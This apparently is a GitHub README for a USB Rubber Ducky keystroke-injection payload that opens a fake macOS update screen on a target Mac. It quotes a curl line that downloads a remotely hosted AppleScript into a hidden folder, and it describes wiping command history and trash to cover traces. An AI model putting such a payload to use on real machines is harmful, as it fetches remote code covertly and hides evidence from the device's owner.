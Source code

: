 ## Fake Update a Mac with Rubber Ducky
This is a text version of a rubber ducky payload I made. It basically opens a safari web browser on a mac and fullscreens it on fakeupdate.net/apple/index.html There is also an added chance that the script will run a delayed keystroke for the "Enter" key which will look like a kernel panic on the fakeupdate.net webpage. This script should clean itself up and delete command line data as well as emptying the mac trash permanently of just the cya directory we made

Requirements:
* USB Rubber Ducky
* some sort of hosting for the file "open.scpt"
* A mac 

Procedure/Usage:
* Firstly, upload the "open.scpt" file to your website
  * Example: www.example.com/open.scpt
* Next, in the ducky.txt file change the line that reads `STRING curl http://www.yoururlgoeshere > /Users/$USER/.cya/open.scpt` to reflect your website
* Now encode your ducky payload and wreak havoc upon your elitist apple friends (this is a joke, don't be stupid and be sure you have permissions to do so)

Issues:
* I tested this on one newer model mac, an early 2016 version and it seemed that the enter key never fired even when it should have. Upon further investigation it was firing but it seemed that for some reason the website wasn't responding to the keystroke (I tested this manually). It doesn't make sense and I did not have access to this mac long enough to thoroughly test, so I would love to get some feedback on this